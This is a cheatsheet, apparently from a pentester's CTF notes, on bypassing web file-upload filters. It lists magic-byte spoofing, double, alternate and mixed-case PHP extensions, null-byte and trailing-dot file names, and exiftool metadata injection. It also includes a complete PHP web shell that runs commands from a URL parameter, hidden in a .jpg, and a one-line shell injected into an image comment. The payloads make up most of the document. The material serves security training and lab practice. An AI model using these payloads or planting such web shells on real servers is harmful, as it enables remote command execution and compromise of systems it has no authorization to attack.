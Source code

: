 ```yaml
---
title: Cheatsheet - Upload Bypass
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/file-upload-bypass]
img_path: /Cheatsheet/Web/Upload bypass/images
---
```



# Magic Bytes; header
![](Pasted%20image%2020220415215405.png)
- if uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
	```
	GIF89a;
	```
- Some Examples:
	- [Vulnhub PwnLab - Bypass upload](https://youtu.be/Q85ku046Q_E?t=1210)
	- [HackTheBox Networked - Bypass upload](https://yufongg.github.io/posts/Networked/#tcp80-http---file-upload-bypass)

# Append the allowed extension
- If only `.png` allowed, try appending `.png` at the end
- Try both ways
	```
	.php.png
	.png.php
	```
	- Some Examples:
		- [Vulnhub Fristileaks 1.3 - Upload bypass via appending](https://youtu.be/jPW_0BFxAYU?t=658)

# Other PHP Extensions
```
php1
php2
php3
php4
php5
phptml
```
- Some Examples
	- [TryHackMe RootMe - Upload bypass via other PHP ext](https://youtu.be/7ZgZv6yJtjM?t=315)
	- [TryHackMe Vulnveristy - Upload bypass via other PHP ext](https://youtu.be/VoY2ERH08Bs?t=564)

# Case Sensitive Extensions
```
shell.pHP
shell.PhP
shell.pHP4
shell.PhPtml
shell.phP5
```


# Insert .jpg webshell
- Requires LFI to work
	```
	cat > bingchilling.jpg <<EOF
	<html>
	<body>
	<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
	<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
	<input type="SUBMIT" value="Execute">
	</form>
	<pre>
	<?php
		if(isset($_GET['cmd']))
		{
			system($_GET['cmd']);
		}
	?>
	</pre>
	</body>
	</html>
	EOF
	```
	```
	<?php system($_GET['cmd']); ?>  //shell.php
	exiftool "-comment<=shell.php" malicious.png
	strings malicious.png | grep system
	```
- Some Examples:
	- TryHackMe HackerOne Easy Port 8001

# Nullbyte
```
shell.jpeg%00.php
shell.png%00.php
```

# Trailing (Windows)
- Adding `.` to the end
	```
	shell.aspx.
	shell.php.
	shell.exe.
	```
	
# Exiftool:
- If web application is accepting uploaded files which are passed to exiftool, can, in turn lead to RCE.
- https://hackerone.com/reports/1154542

# RCE via filename
![](Pasted%20image%2020220415215647.png)

# Use burpsuite to find bypass
![](uploadBypass php extension.png)
![](uploadBypass payloads.png)
![](uploadBypass position.png)
![](uploadBypass Results.png)

# Sources:
https://www.onsecurity.io/blog/file-upload-checklist/

